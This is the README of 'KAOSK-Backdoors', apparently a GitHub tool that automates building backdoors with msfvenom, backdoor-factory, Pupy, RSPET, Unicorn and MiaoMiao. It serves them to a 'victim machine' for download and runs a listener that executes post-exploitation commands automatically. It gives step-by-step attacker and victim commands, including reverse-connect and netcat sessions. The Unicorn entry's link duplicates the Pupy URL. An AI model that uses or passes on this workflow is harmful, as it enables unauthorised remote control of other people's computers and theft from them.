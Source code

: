 
>=>   >=>         >>           >===>        >=>>=>   >=>   >=>

>=>  >=>         >>=>        >=>    >=>   >=>    >=> >=>  >=>

>=> >=>         >> >=>     >=>        >=>  >=>       >=> >=>

>>=>>          >=>  >=>    >=>        >=>    >=>     >>=>>

>=>  >=>      >=====>>=>   >=>        >=>       >=>  >=>  >=>

>=>   >=>    >=>      >=>    >=>     >=>  >=>    >=> >=>   >=>

>=>     >=> >=>        >=>     >===>        >=>>=>   >=>     >=>

# KAOSK-Backdoors
==========
It's a tool that automate: 
+ the installation of some Backdoor's creation programs
+ the creation of the backdoors to use in a victim machine
+ a web where you can download the backdoors created
+ the listener of the backdoors downloaded
+ the actions of the listener

## Example
Using Kali2 as the attacker with IP: 192.168.0.100

Using any machine as the victim in the same network as the attacker.

Run in Kali:
+ git clone https://github.com/carlospolop/KAOSK-backdoors.git
+ python ./install.py
+ python ./create_backdoors.py 192.168.0.100
+ python ./handler.py 192.168.0.100

In the victim machine:
Use a browser and navigate to 192.168.0.100/back and you will see the backdoors created before in the attacker
Download the backdoor that you want to use
Run the backdoor

You will have a session in the victim's machine.

If you have chose a backdoor created with msfvenom, backdoor-factory or unicorn, you will have a metasploit session in the victim. The metasploit's sessions can be configured to run post modules, meterpreter commands and shell commands in the config folder. This means that when you capture a metasploit sessions this modules and commands will run automatically.

## How to configure which post modules, meterpreter commands and shell commands to use
You just have to go to the config folder and the you will find some folders of differents OS. Go inside anyone and you will find some text documents where you can write which post modules, meterpreters commands and shell comands to use when you capture a session in a machine that uses the OS selected.

## Install
python ./install.py

## Create Backdoors
python ./create_backdoors.py <IP_attacker>

## Start handler
python ./handler.py <IP_attacker>


# To Know about the backdoors
--------------------
## Backdoors used:
+ Backdoor-factoy
+ MiaoMiao
+ Msfvenom
+ Pupy
+ RSPET
+ Unicorn

## Backdoor-factory
The backdoor-factory introduce the backdoor inside executables.
If you want to corrupt a executable, you just have to download the original, move it to the correct folder inside BDF_prepared and run python ./create_backdoors.py <IP_attacker> (or python ./backdoor-factoryAuto.py <IP_attacker>)

https://github.com/secretsquirrel/the-backdoor-factory.git

## MiaoMiao
This backdoor open a port in the victims machine and the attacker connects to it. The default port is 55555
To use this backdoor you have to run:
+ Victim: Run src_backdoor > server_dist > newest_version
+ Attacker: nc IP_Victim 55555 -vv

https://github.com/marc0l92/MiaoMiao_project.git

## Msfvenom
Of course.

## Pupy
Creates differents types of backdoors and use it's own listener. It is all automated and the process followed to use these backdoors is:
+ Victim: Run the file create using ./pupygen.py -f lin_x64  connect --host IP_Attacker
+ Attacker: ./pupysh.py

https://github.com/n1nj4sec/pupy.git

## RSPET
To use this backdoor you have to run:
+ Victim: Run python RSPET_folder/Client/rspet_client.py <IP_Attacker>
+ Attacker: (This part is automated) Run Server > rspet_server.py 

https://github.com/panagiks/RSPET.git

## Unicorn
Creates differents types of backdoors and it is all automated.
Use metasploit as listener.

https://github.com/n1nj4sec/pupy.git
